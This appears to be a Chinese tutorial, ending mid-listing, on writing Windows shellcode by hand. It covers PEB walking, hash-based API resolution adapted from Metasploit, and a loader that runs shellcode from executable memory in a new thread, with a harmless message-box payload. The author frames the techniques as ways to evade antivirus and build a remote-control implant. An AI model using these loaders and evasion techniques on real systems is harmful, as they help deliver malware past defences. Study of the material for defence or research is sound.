# Windows Shellcode开发-先知社区

> **来源**: https://xz.aliyun.com/news/17644  
> **文章ID**: 17644

---

# 一、前置知识

## 1.1 shellcode是什么

shellcode是一段精心编写的机器代码，它具有**位置无关、紧凑高效、直接在CPU上执行，无需编译**等属性。在攻防对抗中，shellcode常用于**网络操作**、**权限提升**、**文件操作**等。

比如说我们经常使用到Cobalt Strike的Payload Generator就是有阶段（stager）shellcode，这段shellcode，完成的主要功能就是从CS服务器上下载stage（即beacon.dll），然后跳转到beacon.dll并执行。beacon.dll通过反射式DLL注入（Reflective DLL）技术实现加密的Beacon DLL直接加载到内存中，并进行解密。



## 1.2 为什么要编写shellcode

在实际的渗透过程中，我们经常使用到CS或者MSF生成shellcode，由于直接使用这些工具生成的shellcode是死的，即特征固定，没办法扩展自己想要的功能，也没办法规避AV/EDR的查杀。再者网上大部分的文章都是介绍弹窗或者弹出个计数器就结束了，还是需要自己理解和编写shellcode。其次在未来的规划中，我可能自己写一个远控，为此需要模仿CS的有阶段shellcode完成上线过程的功能，在次之前我就先学习了反射DLL注入，感兴趣的读者可以去看看我写的 `自举的代码幽灵——反射DLL注入（Reflective DLL Injection）` 这篇文章。

**总结**：掌握Shellcode编写技术十分重要，可以说是一个安全开发人员的必备技能。

## 1.3 汇编基础

### 1.3.1 寄存器

寄存器是 CPU 用于存储和处理数据的核心组件，shellcode编写中用到大多数是通用寄存器，偶尔用到段寄存器（cs、ds、es、gs等）和eip，所以x86和x64介绍的寄存器都是通用寄存器。

**（1）x86**

|  |  |
| --- | --- |
| 寄存器 | 名称 |
| `EAX` | 累加器 (Accumulator) |
| `EBX` | 基址寄存器 (Base) |
| `ECX` | 计数器 (Counter) |
| `EDX` | 数据寄存器 (Data) |
| `ESI` | 源索引寄存器 (Source Index) |
| `EDI` | 目的索引寄存器 (Destination Index) |
| `EBP` | 基址指针 (Base Pointer) |
| `ESP` | 栈指针 (Stack Pointer) |

**（2）x64**

x64指令系统中，以R开头扩展了x86的8个通用寄存器，在此之外又引进了r8、r9、r10、r11、r12、r13、r14和r15寄存器。

### 1.3.2 指令

|  |  |
| --- | --- |
| 指令 | 作用 |
| mov | 寄存器/内存之间的数据传输 |
| xor | 寄存器清零或数据解密。 |
| push | 数据压栈 |
| pop | 数据出栈 |
| jmp | 无条件跳转 |
| call | 调用函数 |
| lea | 计算内存地址，不实际访问内存 |
| cmp | 比较指令，常配合跳转指令如je、jne等 |

当然汇编指令不只我介绍的这些，感兴趣的读者可以自行查阅资料。

### 1.3.3 调用约定

调用约定定义了函数调用时 **参数传递顺序**、**堆栈清理责任**（调用者或被调用者）以及 **函数名修饰规则**。`WINAPI` 是 Windows 开发中的一个宏定义，**用于指定函数使用** `__stdcall` **调用约定**。在下文的4.2中，我们将遵从stdcall调用约定，参数清理由被调用函数完成，调用者无需处理。

|  |  |  |  |  |
| --- | --- | --- | --- | --- |
| 调用约定 | 参数顺序 | 堆栈清理者 | 典型应用场景 | 变参支持 |
| `__stdcall` | 右→左 | 被调用者 | Windows API、COM接口 | 否 |
| `__cdecl` | 右→左 | 调用者 | C/C++默认、可变参数函数 | 是 |
| `__fastcall` | 右→左 | 被调用者 | 部分寄存器传参优化场景 | 否 |

对于x86架构，调用函数之前需要将函数需要用到的参数压入到栈内，压栈的顺序是从右到左，如

```
test(int a,int b)
```

对应的汇编顺序是

```
……
push b
push a
call test
```

对应x64架构，参数传递的方式有所不通，前四个参数分别使用RCX、RDX、R8和R9从左到右顺序传递，后续的参数就使用栈传递，压栈的顺序是从右到左。如

```
test64(a, b, c, d, e, f, g, h)
```

对应的汇编顺序是

```
……
mov rcx, a  ; 第一个参数
mov rdx, b  ; 第二个参数
mov r8, c   ; 第三个参数
mov r9, d   ; 第四个参数
push h      ; 第8个参数（从右向左压栈）
push g
push f
push e      ; 第五个参数
call test64
```

# 二、注意事项

我们先回顾一下pe文件的加载流程

1. 首先将PE文件按照内存结构重写映射到内存中
2. 修复导入表
3. 修复重定向表
4. TLS（线程本地存储）初始化
5. 修改C++异常、修复导入延迟表等
6. 执行入口点

当我们直接运行pe文件时，上述的操作都是由操作系统完成的，可我们现在要编写shellcode，所以要尽量避免产生上述的操作。如果不省略上述操作，那还不如直接用petoshellcode或者dount等工具将pe文件转换成带有引导头的shellcode。

我们在编写位置无关的shellcode时，就要注意下面的事项

1. **.rdata节中的全局变量或常量是不能用**：因为我们的shellcode并不是exe文件，没有完成重定位这个操作。如果我们使用类似 `CHAR VirtualAlloc[] = "VirtualAlloc";` 的常量字符串是不允许的。但话也不能说的这么绝对，如果能保证文件对齐和内存对齐相同，也就可以带上.rdata节的数据，但我感觉太麻烦了。
2. **不能使用导入表**：如果需要用到Windows的API，就需要通过PEB来动态获取或者可以先用PEB获取 `LoadLibrary+GetProcAddress` 函数的地址，然后用这两个的组合来获取需要的函数的地址。
3. 不使用C++异常、不使用导入延迟表
4. 编译后提取 `.text` 节作为我们的shellcode。

# 三、环境工具

在Windows上开发shellcode，我还是建议使用Visual Studio这款强大的集成开发环境。再次之外还需要x32/64dbg、IDA等工具

我们在Visual Studio新建一个控制台应用项目



新建项目完成后，我们就来到了这个页面



接下来我们做一些环境配置

首先我们要关闭安全检查，因为启用安全检查后，会使用到security cookie这个全局变量，但是我们shellcode压根不能用.rdata的全局变量所以要关闭这个选项。



关闭优化（最小优化可以使生成shellcode的体积减小，但不能保证正常运行），启用内部函数选项改为否



对于**x64**而言，微软的MSVC不允许在C++代码中插入汇编指令，故只能采取联合编译汇编才行。当然我还是推荐纯汇编。

右键项目，点击“生成依赖性->生成自定义”


勾选masm，然后确定。



在项目中添加\*.asm后缀的文件，对刚刚添加的asm文件，点击属性，看项类型是不是 `Microsoft Macro Assembler`



**问题**：对于**x86**编写纯汇编，如果我们的MSVC版本高于14.26.28801，则msvc工具集编译不了masm32v11r环境的汇编代码。

**解决方法**：安装低版本的工具集，由于本人使用的是Visual Studio2022的IDE，从管理工具中下载2019年的MSVC的版本也是高于14.26的，故我下载的是2017年的MSVC工具集。



当然还有一些配置没说，我的想法是配合具体实现的时候再提起一些注意事项。

# 四、弹窗shellcode

## 4.1 C++

首先我们来解决第一个问题，那就是不能用全局变量或全局常量，所有用到参数都只能从栈中获取。我们就安装下面的格式来声明需要用到的字符串，这样这些字符就不会存放在.rdata中，而只会存放在栈中，也就不会出现绝对地址。

```
CHAR messageBoxA[] = {'M','e','s','s','a','g','e','B','o','x','A','\0'};
CHAR loadLibraryA[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', '\0' };
CHAR getProcAddress[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s','\0' };
WCHAR kernel32[] = { 'K', 'e', 'r', 'n', L'e', 'l', '3', '2', '.', 'd', 'l', 'l', '\0' };
CHAR User32[] = { 'U','s','e','r','3','2','.','d','l','l','\0'};
CHAR oneday[] = { 'o','n','e','d','a','y' ,'\0'};
```

`CHAR getProcAddress[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s','\0' };` 是这样存放的



而 `CHAR VirtualAlloc[] = "VirtualAlloc";` 这样存放的




接下来解决第二个问题：**不修复导入表也不使用导入表**。但这又会出现一个问题，不依靠导入表怎么才能完成我们想要的功能，全部功能自己自己实现是非常不明智的，**如何在不依赖导入表，仍能动态调用系统 API**（如 `VirtualAlloc`, `CreateThread` 等），这是编写纯独立Shellcode 的关键挑战。

为了解决这个问题，我不得不远离导入表的温柔乡，义无反顾地奔向手刃PEB的斗争中……

大致的步骤如下

1. **获取PEB的地址**：从gs/fs寄存器中获取PEB的地址
2. **遍历加载的模块列表**：从PEB中访问 `Ldr` 成员，获取 `PEB_LDR_DATA` 结构。遍历InMemoryOrderModuleList链表，获取每个模块的LDR\_DATA\_TABLE\_ENTRY。
3. **查找目标DLL（如kernel32.dll）**：比较每个模块的BaseDllName与目标DLL名称（不区分大小写）
4. **解析目标DLL的导出表**：从DLL基地址获取PE头，定位导出表。遍历导出表中的函数名称，找到目标函数并计算其地址。

原理我就不在这里讲了，可以跳转到4.2纯汇编中查看原理，具体实现去看我的另一篇文章：[文章 - 动态获取API函数（又称隐藏IAT）实现免杀 - 先知社区](https://xz.aliyun.com/news/17170?time__1311=eqUxn7DQqmqWq0KqGXnj7DuQC1DtQQeiH4D&u_atoken=b61d1da797671556647b5a9702aa6a17&u_asig=1a0c384917431555901132391e0032)

```
// Shellcode.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。

#include <iostream>
#include <Windows.h>
#include <winternl.h>

// 自定义宽字符转小写（简化版 Unicode 支持）
wchar_t my_towlower(wchar_t c) {
    // 基础拉丁字母（A-Z）直接转换
    if (c >= L'A' && c <= L'Z') {
        return c + 32;
    }
    return c;
}

// 不区分大小写的宽字符串比较函数（不修改原始字符串）
bool MyCompareStringW(const wchar_t* str1, const wchar_t* str2) {
    // 空指针检查
    if (str1 == NULL || str2 == NULL) return false;

    size_t i = 0;
    // 动态转换并比较字符，无需修改原始字符串
    while (str1[i] != L'\0' && str2[i] != L'\0') {
        wchar_t c1 = my_towlower(str1[i]);
        wchar_t c2 = my_towlower(str2[i]);

        if (c1 != c2) return false;
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == L'\0' && str2[i] == L'\0');
}

// ASCII字符串比较函数
bool MyCompareStringA(CHAR str1[], CHAR str2[]) {

    int i = 0;
    while (str1[i] && str2[i]) {

        if (str1[i] != str2[i]) {
            return false;
        }
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == '\0' && str2[i] == '\0');
}


// 提取 DLL 名称的函数
wchar_t* ExtractDllName(const wchar_t* fullDllName) {
    wchar_t* fileName = NULL;
    wchar_t* temp = (wchar_t*)fullDllName;

    // 遍历并找到最后一个 '\'，获取文件名部分
    while (*temp) {
        if (*temp == L'\') {
            fileName = temp + 1;  // 更新文件名的位置
        }
        temp++;
    }

    // 如果没有找到 '\'，则认为整个字符串就是文件名
    if (!fileName) {
        fileName = (wchar_t*)fullDllName;
    }

    return fileName;
}


FARPROC GetApiAddressByName(wchar_t* TargertDllName, char* ApiName) {

    // 从获取 PEB 地址
    PPEB pPEB = (PPEB)__readgsqword(0x60);

    // 获取 PEB.Ldr
    PPEB_LDR_DATA pLdr = pPEB->Ldr;

    // 遍历模块列表
    PLIST_ENTRY pListHead = &pLdr->InMemoryOrderModuleList;
    PLIST_ENTRY pCurrentEntry = pListHead->Flink;
    while (pCurrentEntry && pCurrentEntry != pListHead) {
        PLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(pCurrentEntry, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

        if (pEntry && pEntry->FullDllName.Buffer) {

            wchar_t* fullDllPath = pEntry->FullDllName.Buffer;

            // 提取 DLL 名称
            wchar_t* CurrentDllName = ExtractDllName(fullDllPath);

            // 比较 DLL 名称（不区分大小写）
            if (MyCompareStringW(CurrentDllName, TargertDllName)) {
                // 找到目标 DLL
                HMODULE hModule = (HMODULE)pEntry->DllBase;

                // 分析 PE 文件找到导出表
                PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hModule + ((PIMAGE_DOS_HEADER)hModule)->e_lfanew);
                PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule +
                    pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

                // 获取导出表的各个信息
                DWORD* pFunctionNames = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfNames);
                DWORD* pFunctionAddresses = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfFunctions);
                WORD* pFunctionOrdinals = (WORD*)((BYTE*)hModule + pExportDirectory->AddressOfNameOrdinals);

                // 遍历导出表，查找目标函数
                for (DWORD i = 0; i < pExportDirectory->NumberOfNames; i++) {
                    char* functionName = (char*)((BYTE*)hModule + pFunctionNames[i]);

                    // 找到函数名，获取其地址
                    if (MyCompareStringA(functionName, ApiName)) {
                        return (FARPROC)((BYTE*)hModule + pFunctionAddresses[pFunctionOrdinals[i]]);
                    }
                }

                // 如果遍历完导出表未找到函数，返回 NULL
                return NULL;
            }
        }

        pCurrentEntry = pCurrentEntry->Flink;
    }

    return NULL; // 未找到模块
}

__declspec(code_seg(".text$A")) int main()
{
    // 1. 函数声明
    typedef int(WINAPI* MyMessageBoxA)(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT  uType);
    typedef FARPROC(WINAPI* MyGetProcAddress)(HMODULE hModule, LPCSTR  lpProcName);
    typedef HMODULE(WINAPI* MyLoadLibraryA)(LPCSTR lpLibFileName);

    // 2. 需要用到的API和DLL的名称
    CHAR messageBoxA[] = { 'M','e','s','s','a','g','e','B','o','x','A','\0' };
    CHAR loadLibraryA[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', '\0' };
    CHAR getProcAddress[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s','\0' };
    WCHAR kernel32[] = { 'K', 'e', 'r', 'n', 'e', 'l', '3', '2', '.', 'd', 'l', 'l', '\0' };
    CHAR User32[] = { 'U','s','e','r','3','2','.','d','l','l','\0' };
    CHAR oneday[] = { 'o','n','e','d','a','y' ,'\0' };

    // 3.动态获取API函数
    MyGetProcAddress pGetProcAddress = (MyGetProcAddress)GetApiAddressByName(kernel32, getProcAddress);
    MyLoadLibraryA pLoadLibraryA = (MyLoadLibraryA)GetApiAddressByName(kernel32, loadLibraryA);
    MyMessageBoxA pMessageBoxA = (MyMessageBoxA)pGetProcAddress(pLoadLibraryA(User32), messageBoxA);

    // 4. 完成相应的功能
    pMessageBoxA(NULL, oneday, NULL, 0);

    return 0;
}
```

想要解析pe文件，需要在010editor的模板处安装 `EXE.bt` 模板才能达到下图所示的效果。可以看到末尾有很多00字节，我尝试去掉一些也能够正常执行。



我们点击.text节区，然后右键->"选择"->"保存选择"



可以看到我们我们的文件大小有1kb，说实话还是有点大了。



想要加载这个文件，我们可以使用 [hasherezade/pe\_to\_shellcode: Converts PE into a shellcode](https://github.com/hasherezade/pe_to_shellcode) 中的runshec工具



当然啦，我们也可以将用010 editor工具打开\*.bin文件，然后选择导出为C语言格式的文件



导出的文件里面含有0x格式的shellcode



然后用各种加载器来完成加载，这里我使用`创建线程`的方式执行shellcode

```
#include <Windows.h>

//将刚刚在msf中生成的calc的shellcode复制粘贴过来
unsigned char buf[] = {
};

int main() {

    // 申请一块大小为buf字节数组长度的可读可行的内存区域
    LPVOID pMemory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // 将buf数组中的内容复制到刚刚分配的内存区域
    RtlMoveMemory(pMemory, buf, sizeof(buf));

    // 创建一个线程执行内存中的代码
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMemory, NULL, 0, NULL);

    // 等待线程执行完成
    WaitForSingleObject(hThread, INFINITE);
}
```



## 4.2 纯汇编

从上文可知，我们使用C++编写的程序，经过编译后的exe文件中的.text节区的大小还是比较大的，而我们用shellcode的主要原因还是因为它的短小精悍。看了网上的一些文章，有人推荐在C中使用内联汇编或者联合编译等手段减少shellcode体积，经过深思熟虑后我还是决定使用纯汇编的方法编写shellcode，理由如下

1. 指令级精确控制
2. 避免对齐填充
3. 规避全局变量与库依赖

缺点也很明显，就是编写效率低下，需要对汇编指令、堆栈和寄存器很熟悉，没有用C++编写来的爽一些。

下面的这个汇编代码是masm32格式的，我为什么要用这个格式呢，理由如下

1. visual studio自带相关的工具套件（比如说ml和link），免去安装环境
2. 依附于visual studio，我可以极其方便调式汇编程序，查看内存和寄存器的情况
3. 个人习惯，我已经离不开visual studio，已经是它的形状了 

一说到shellcode开发，必定离不开Stephen Fewer，他是安全领域的重要研究者，以其在内存注入技术和 Shellcode 开发中的贡献闻名，代码参考这两个汇编文件

1. **block\_api.asm**：代码通过动态解析哈希值来定位所需的API函数地址： [metasploit-framework/external/source/shellcode/windows/x86/src/block/block\_api.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_api.asm)
2. **block\_reverse\_http.asm**：该汇编代码实现了一个通过HTTP下载并执行远程代码的Shellcode加载器：[metasploit-framework/external/source/shellcode/windows/x86/src/block/block\_reverse\_http.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_reverse_http.asm)

因为 `block_reverse_http.asm` 中ebp事先存放了api\_call的地址，通过 `call ebp` 来实现函数调用，我也不知道api\_call的地址是怎么存在ebp中的，为了解决这个问题，我将上述的两个文件整合成一个asm文件。

### 4.2.1 main

正常情况下，一个什么功能都没有的程序运行起来只会加载三个模块：进程本身、ntdll.dll和kernel32.dll。所以为了完成相应的功能，比如说调用MessageBoxA函数，就相应将user32.dll加载到进程中。

使用GetProcAddressByHash的步骤，比如说调用MessageBoxA，从右到左压入MessageBoxA的参数，最后再压入user32.dll+MessageBoxA的哈希值。

```
xor ebx,ebx          ; 清零ebx
push ebx             ; 压入uType参数（0）
push ebx             ; 压入lpCaption参数（NULL）
push ebx             ; 压入lpText参数（NULL）
push ebx             ; 压入MessageBox的hWnd参数（NULL）
push 790E24F0h       ; user32.dll+MessageBoxA函数的哈希值
call GetProcAddressByHash ; 调用MessageBoxA函数，返回值存储到eax中
```

### 4.2.2 GetProcAddressByHash

我将 `block_api.asm` 的api\_call命名为GetProcAddressByHash，保持了大部分代码的原样，并对少部分代码进行了修改

**（1）保存寄存器和目标hash到当前栈帧上**

```
pushad                  		 ; 保存调用者所有寄存器的状态，一共压入8个寄存器，则esp-32
mov ebp,esp               ; 创建一个新栈帧
mov eax,[esp+36]      ; 保存哈希值到栈中，为后续动态解析API函数地址做准备
push eax                     ;【1】第一次压栈，存储hash值[ebp-4]
```

关键指令解析

1. `pushad`  ：该指令保存调用者所有寄存器的状态，压栈的顺序是EDI → ESI → EBP（原始值） → ESP（原始值） → EBX → EDX → ECX → EAX。
2. `push eax`：将目标hash值压入当前栈帧中，当然你也可以不用这一天汇编指令，在后续要用到目标hash时，用ebp寄存器计算出目标hash值的位置。

请记住执行完上述的汇编指令，此时栈的布局，最后结尾的时候我再给出清栈后的栈布局。

```
低地址（栈顶） → 高地址
+---------------------+ ← 当前ESP（执行完所有指令后的栈顶）
|       目标Hash值         |  ← [ebp-4]（由 push eax 压入）
+---------------------+ 
|         EDI          |  ← EBP指向此处（pushad后的栈顶）
+---------------------+ 
|         ESI          |
+---------------------+
|   原始EBP（原EBP）    |
+---------------------+
|   原始ESP（pushad前） | 
+---------------------+
|         EBX          |
+---------------------+
|         EDX          |
+---------------------+
|         ECX          |
+---------------------+
|         EAX          |  
+---------------------+
|  ret address    |
+---------------------+
|          目标Hash值       |
+---------------------+
```

**（2）获取** `InMemoryOrderModuleList` **模块链表的第一个模块结点**

```
xor edx,edx      					;清零
assume fs:nothing       		; 忽略段寄存器的默认假设，不然不能读取fs寄存器	
mov edx, fs:[edx + 30h]	; 通过FS段寄存器获取PEB地址（TEB偏移0x30处）	
mov edx,[edx+0ch]	 		; PEB->Ldr
mov edx,[edx+14h]	 	    ; 第一个模块
```

关键指令解析

1. `mov edx, fs:[edx + 30h]`：通过FS段寄存器获取PEB地址。因为这个代码是32位的，所有我们用到了fs寄存器，熟悉动态获取API的朋友肯定对fs寄存器很熟悉，他指向**TEB**（线程环境块），而在TEB偏移0x30的位置是则是 `ProcessEnvironmentBlock`，即PEB的指针



2. `mov edx,[edx+0ch]`：获取ldr指针。在PEB结构体偏移0xc则存放着 `PEB_LDR_DATA` 结构体的指针



3. `mov edx,[edx+14h]`：获取第一个模块结点。在 `PEB_LDR_DATA` 结构体中0x14的位置是存储着 `InLoadOrderModuleList` 模块链表的指针



这个`InLoadOrderModuleList`相当于一个头结点，其 `Flink` 指针下一个节点。`mov edx,[edx+14h]` 就相当于获得第一个模块结点（进程本身）



**（3）模块遍历**

```
next_mod:
mov esi,[edx+28h]                       ;获取模块的名称
movzx ecx, word ptr [edx+24h]  ;获取名称长度,第一个注意点
xor edi,edi                                     ;存储模块的hash
```

`Flink` 指针下一个节点，有没有人好奇它指向的具体位置在哪里呢？根据我的分析，它其实指向的是 `LDR_DATA_TABLE_ENTRY` 结构体0x8的位置上



我们计算一下 `BaseDllName` 和 `InMemoryOrderLinks` 之间的偏移，正好是24h（10进制36），我们再看下图 `UNICODE_STRING` 结构体



这样就能说明 `movzx ecx, word ptr [edx+24h]` 和 `mov esi,[edx+28h]`  确实是能获取到模块的长度和字符数组指针。

⚠**注意**：在Stephen Fewer的代码中获取长度是用偏移0x26来获取的，其实两种方式都可以，用MaximumLength，以为着它将字符串末尾的多个 `00` 也算进去了，这会导致多执行几轮计算hash的步骤，导致hash值与用偏移0x24计算的hash值的不一样。

下面我们通过调式来验证上述汇编代码的正确性，看以看到下图我们通过esi来查看模块名称字符串所在的位置，有一点值得我们关注，就是每一个字符之间都会插入'00'，这意味我们只通过字符串的长度来控制计算hash的轮数，不能用'00'来判断字符串是否结束，这将影响计算hash的代码的实现（将计算hash的汇编代码独立成一个asm文件，下文中会给出）

```
73,00,68,00,65,00,6C,00,6C,00,63,00,6F,00,64,00,65,00,2D,00,61,00,73,00,6D,00,2e,00,65,00,78,00,65,00
s         h         e       l            l          c         o        d         e         -         a       s         m        .         e        x         e

6E,00,74,00,64,00,6C,00,6C,00,2E,00,64,00,6C,00,6C,00
n          t        d         l          l          .         d        l           l
```



**（4）计算模块hash**

```
loop_modname:
    xor eax,eax                ; 清零EAX，准备处理字符
    lodsb                      ; 从ESI加载一个字节到AL（自动递增ESI）
    cmp al,'a'                 ; 检查是否为小写字母（ASCII 97）  
    jl not_lowercase           ; 检查是否为小写字母（ASCII 97）
    sub al,20h                 ; 将小写字母转为大写（ASCII减0x20）
not_lowercase:
    ror edi,0dh                ; 将EDI循环右移13位（哈希值混合高低位）
    add edi,eax                ; 将字符值累加到EDI（哈希值更新）
    dec ecx                    ; 字符计数器ECX减1
    jnz loop_modname           ; 若未处理完所有字符，继续循环
    push edx                   ; 将当前模块链表节点地址压栈，位于[ebp-8]
    push edi                   ; 将计算完成的哈希值压栈存储hash值，位于[ebp-12]   
```

代码没什么好讲解的，看注释就能知道个大概，我只在这里提一些我任务指定关注的

1. 可以将字符串统一为大写，也可以将字符串统一为小写，目的就是大小写不敏感，因为微软在给dll命名时有时会用字母大写，有时会用小写。



2. `ror edi,0dh` ：循环右移的位数可以自己设定，不一定要求是13位，只要保证你给的目标hash也是使用相同的手段得到即可

**（5）获取导出表**

```
mov edx,[edx+10h]    ; 获取模块的基址
mov eax,[edx+3ch]    ; 获取PE头RVA
add eax,edx          ; 获取PE头地址
mov eax,[eax+78h]    ; 获取获取导出表的RVA
test eax,eax         ; 检查是否为空
jz get_next_mod1     ; 获取下一个模块
add eax,edx          ; 获取导出表地址
push eax             ; 存储导出表的地址，位于[ebp-16]
mov ecx,[eax+18h]    ; 按名称导出的函数数量（NumberOfNames）
mov ebx, [eax+20h]   ; 函数名称字符串地址数组的RVA（AddressOfNames RVA）
add ebx, edx         ; 函数名称字符串地址数组的VA
```

很连贯的一套操作

1. `mov edx,[edx+10h]`：获取模块的基址，此时edx是指向 `InMemoryOrderLinks`，距离edx偏移0x10的位置上是模块的基址



2. `mov eax,[edx+3ch]` ：获取PE头RVA，从这条指令开始都是涉及PE头的操作。



通过计算，确实是获取位于DOS头0x3c位置的e\_ifanew，这个成员存储着PE头的RVA


3. `mov eax,[eax+78h]`：获取导出表RVA（可选头DataDirectory[0]的VirtualAddress，偏移0x78），可以通过结构体 `IMAGE_OPTIONAL_HEADER` 计算得出确实是偏移0x78

```
typedef struct _IMAGE_OPTIONAL_HEADER {
    //
    // Standard fields.
    //

    WORD    Magic;
    BYTE    MajorLinkerVersion;
    BYTE    MinorLinkerVersion;
    DWORD   SizeOfCode;
    DWORD   SizeOfInitializedData;
    DWORD   SizeOfUninitializedData;
    DWORD   AddressOfEntryPoint;
    DWORD   BaseOfCode;
    DWORD   BaseOfData;

    //
    // NT additional fields.
    //

    DWORD   ImageBase;
    DWORD   SectionAlignment;
    DWORD   FileAlignment;
    WORD    MajorOperatingSystemVersion;
    WORD    MinorOperatingSystemVersion;
    WORD    MajorImageVersion;
    WORD    MinorImageVersion;
    WORD    MajorSubsystemVersion;
    WORD    MinorSubsystemVersion;
    DWORD   Win32VersionValue;
    DWORD   SizeOfImage;
    DWORD   SizeOfHeaders;
    DWORD   CheckSum;
    WORD    Subsystem;
    WORD    DllCharacteristics;
    DWORD   SizeOfStackReserve;
    DWORD   SizeOfStackCommit;
    DWORD   SizeOfHeapReserve;
    DWORD   SizeOfHeapCommit;
    DWORD   LoaderFlags;
    DWORD   NumberOfRvaAndSizes;
    IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES];
} IMAGE_OPTIONAL_HEADER32, *PIMAGE_OPTIONAL_HEADER32;
```

4. `mov ecx,[eax+18h]` 和 `mov ebx, [eax+20h]`：获取按名称导出的函数数量和函数名称字符串地址数组的RVA（AddressOfNames RVA）

```
typedef struct _IMAGE_EXPORT_DIRECTORY {
    DWORD   Characteristics;      // 未使用，通常为0
    DWORD   TimeDateStamp;         // 时间戳（编译时间）
    WORD    MajorVersion;          // 主版本号（通常为0）
    WORD    MinorVersion;          // 次版本号（通常为0）
    DWORD   Name;                  // 模块名称的 RVA（如 "kernel32.dll"）
    DWORD   Base;                  // 导出函数的起始序号（Ordinal Base）
    DWORD   NumberOfFunctions;     // 导出函数的总数
    DWORD   NumberOfNames;         // 按名称导出的函数数量
    DWORD   AddressOfFunctions;    // 函数地址数组的 RVA
    DWORD   AddressOfNames;        // 函数名称地址数组的 RVA
    DWORD   AddressOfNameOrdinals; // 函数序号数组的 RVA
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
```

我们调式来看一下





为什么按名称导出的函数数量为0呢？因为我现在看的是第一个模块（本进程），而第一个模块是没有导出函数的



我们看下一个模块，这个模块是ntdll.dll，可以看到一个有0x9B6个导出函数。



**（6）获取函数名**

```
get_next_func:    
test ecx, ecx        ; 检查按名称导出的函数数量是否为0
jz get_next_mod      ; 若为0，跳转到下一个模块
dec ecx              ; 函数计数器减1（倒序遍历）
mov esi, [ebx+ecx*4] ; 从末尾往前遍历，一个函数名RVA占4字节
add esi,edx          ; 初始化函数哈希值（EDI=0）
xor edi,edi          ; 用于存储函数hash值
```

没啥好说的，直接调式看是否正确



再用dbg来验证一下是否有这个函数



**（6）计算模块 hash + 函数 hash之和，没啥好说的**

```
loop_funcname: 
xor eax, eax         ; 清空 EAX
lodsb                ; 加载字符到 AL，ESI++
ror edi, 0dh         ; 哈希值循环右移13位
add edi, eax         ; 累加字符 ASCII 值到哈希      
cmp al, ah           ; 检查是否到达字符串的终止符 \0（ASCII 0）
jne loop_funcname    ; 未到结尾则继续循环
add edi,[ebp-12]     ; 加上之前的模块hash
cmp edi,[ebp-4]      ; 于目标hash进行比较
jnz get_next_func
```

**（7）获取目标函数指针**

```
get_funcAddress:
pop eax              ; 获取之前存放的当前模块的导出表地址
mov ebx, [eax+24h]   ; 获取序号表（AddressOfNameOrdinals）的 RVA
add ebx, edx         ; 序号表起始地址
mov cx, [ebx+2*ecx]  ; 从序号表中获取目标函数的导出索引
mov ebx, [eax+1ch]   ; 获取函数地址表（AddressOfFunctions）的 RVA
add ebx, edx         ; AddressOfFunctions数组的首地址
mov eax, [ebx+4*ecx] ; 获取目标函数指针的RVA
add eax, edx         ; 获取目标函数指针的地址
```

ecx最开始是充当了名称数组的长度，随着不断的 `dec ecx`，刚好能充当一个序号数组的索引作用，并从序号数组获取导出索引，最终得到目标函数指针，大概的流程是这样的

```
AddressOfNames[i]与目标函数名匹配 → 找到序号数组索引i → AddressOfNameOrdinals[i] →获取导出索引j->从地址表获取 AddressOfFunctions[j] 目标函数指针
```

根据调式，我们确实是找的了目标函数（LoadLibraryA）的地址



**（8）清栈并调用目标函数**

```
finish:
pop ebx              ; 清除之前的模块+函数的hash值
pop ebx              ; 清除当前链表的位置
pop ebx              ; 清除目标hash值
mov [esp+28],eax     ; 将 API 函数地址保存eax中
popad                ; 恢复所有通用寄存器
pop ecx              ; 弹出调用者压入的原始返回地址(由 CALL 指令保存的)
pop edx              ; 弹出调用者压入的哈希值
push ecx             ; 保存原始返回地址，与jmp eax模拟call指令
jmp eax              ; 跳转到目标 API 函数地址
```

为了确保我们调用完目标函数后能返回到main中的下一条指令，我们需要保存原始返回地址，需要push ecx与jmp eax模拟call指令。

清栈前后的栈空间布局如下



## 4.3 完整代码

计算hash的asm代码，请在ret指令处下一个断点，哈希之和存放在eax中

```
.386
.model flat, stdcall
option casemap:none

.data
dll_name db 'u',0,'s',0,'e',0,'r',0,'3',0,'2',0,'.',0,'d',0,'l',0,'l',0
func_name db 'MessageBoxA', 0  ; 定义函数名称，以0结尾

.code

; 计算DLL名称的哈希（转为大写处理）
loop_modname:
    xor eax, eax               ; 清空EAX
    lodsb                      ; 加载字符到AL，ESI++
    cmp al, 'a'                ; 检查是否为字符串结尾                
    jl not_lowercase           ; 检查是否是小写字母
    sub al, 20h                ; 转为大写
not_lowercase:
    ror edi, 0Dh               ; 右移13位
    add edi, eax               ; 累加到哈希值
    dec ecx
    jnz loop_modname          ; 继续循环
end_modname:
    ret

; 计算函数名称的哈希（原样处理）
loop_funcname:
    xor eax, eax               ; 清空EAX
    lodsb                      ; 加载字符到AL，ESI++
    ror edi, 0Dh               ; 右移13位
